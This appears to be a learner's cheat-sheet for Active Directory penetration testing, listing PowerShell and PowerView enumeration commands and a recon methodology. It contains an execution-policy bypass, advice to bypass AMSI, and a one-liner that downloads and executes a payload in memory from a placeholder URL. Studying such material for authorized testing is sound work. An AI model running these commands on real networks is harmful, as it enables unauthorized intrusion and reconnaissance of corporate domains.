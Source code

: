 Some Basic Things to know :

1. If you hear AD don't think of it as a Domain, think of it as a forest as Microsoft considers that as a Security Boundary and normally if everything works as its intended if a person compromises a domain in a forest its ideally assumed that the other forests are also compromised.
2. DNS causes a lot of issues in AD.
3. Active Directory handles Accessibility, Manageability and Interoperability's of things inside a corporations.

Now Cheat Sheets for PowerShell / PowerView AD Module.

```PowerShell
# To get full help about a certain cmdlet
Get-Help <PowershellCommand> -Full
# To get get examples of how to use the cmdlet
Get-Help <PowershellCommand> -Examples
# To get all the cmdlets
Get-Command -CommandType cmdlet
# To bypass Execution Policy
powershell -ExecutionPolicy bypass
powershell -ep bypass
# To Import a Module
Import-Module <path to the module>
# Download and execute stuff from Memory
iex (New-Object Net.WebClient).DownloadString('https://url/payload')
$wr = [System.Net.WebRequest]::Create("url")
$r = $wr.GetResponse()
```


So most of the times when we wanna try to run stuff like powerview, and so on it wont really work for us due to AMSI. So we have to basically bypasss AMSI before executing our ennumeration tools/ scripts.

After we have done that lets try to ennumerate with PowerView here is github repo to install it :

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

and then we can just transfer this file to the Windows Machine and then open powershell bypass AMSI and then import PowerView.ps1

Here is a Small Cheatsheet to Get Information via Powerview

```PowerShell
# Get Domain Information
Get-NetDomain 
Get-NetDomain -Domain ACME.Local #Get Info about a Particular Domain
# To Get Domain Policies 
Get-DomainPolicy 
# To get users in the current domain
Get-NetUser 
Get-NetUser -Filter Username # Get informaton about specific user
# Get Properties of allusers in current domain
Get-UserProperty
# To Get Group in the Domain
Get-NetGroup 
Get-NetGroup -Domain <domain> # To get group info about specific domain
Get-NetGroup -FullData # To get all data about Groups
Get-NetGroup *somethingyouwannasearch* # To get info about specific group name
# List of Computers in current domain
Get-NetComputer 
Get-NetComputer -FullData # Get all the data 
# Get Members of a Group
Get-NetGroupMember -GroupName "NameofGroup" 
# Get Membership of a Group of a user
Get-NetGroup -Username "username"
# Get local groups on a machine
Get-NetLocalGroup -ComputerName "computername" -ListGroups
# Get Logged users on a computer 
Get-NetLoggedon -Computer <Computer>
# Shares on hosts 
Invoke-ShareFinder -Verbose
#Find sensitive files on computers in the domain
Invoke-FileFinder -Verbose 
# Get all fileservers of the domain
Get-NetFileServer
# List of GPO in this domain
Get-NetGPO 
Get-NetGPO -Computer <computer> # For a specific computer
Get-NetGPOGroup
# Get OU's in a domain 
Get-NetOU -FullData 
# Get GPO's on a OU
Get-NetGPO -GPOname "<GPO from gplink attribute from Get-NetOU>"
# Get ACLs wiht an object 
Get-ObjectAcl -SamAccountName username/objectname -ResolveGUIDs
# Get the ACLs associated with the specified LDAP path to be used for search
Get-ObjectAcl -ADSpath "LDAP://CN=Domain Admins,CN\=Users,DC=dollarcorp,DC\=moneycorp,DC\=local" -ResolveGUIDs Verbose
# Searhc Intresting ACL 
Invoke-ACLScanner -ResolveGUIDs
# Get All Domain Trusts 
Get-NetDomainTrust
# Info about Forest
Get-NetForest
# All Domains in Forest
Get-NetForestDomain
Get-NetForestCatalog # GC for global catalogs
```

Methadology : 
Ennumerate Users, Computers, Domain Administrators, Eneterprise Admins, Shares and see if you can get any sensitvie information and then map the domain and draw it down and then map their trusts and then use ACL Scanners to see if you have any intresting ACLs that you can abuse.
